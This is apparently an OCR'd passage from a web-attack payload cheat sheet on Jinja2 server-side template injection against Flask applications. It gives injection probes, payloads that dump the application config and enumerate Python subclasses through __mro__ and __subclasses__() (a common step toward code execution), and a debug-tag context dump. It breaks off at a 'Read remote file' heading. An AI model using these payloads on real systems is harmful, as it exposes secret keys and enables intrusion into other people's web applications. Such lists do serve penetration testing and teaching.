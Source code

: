 ### Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.

### Template format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Debug Statement¶

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>{% debug %}</pre>
```

Source: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement

### Dump all used classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Dump all config variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Read remote file
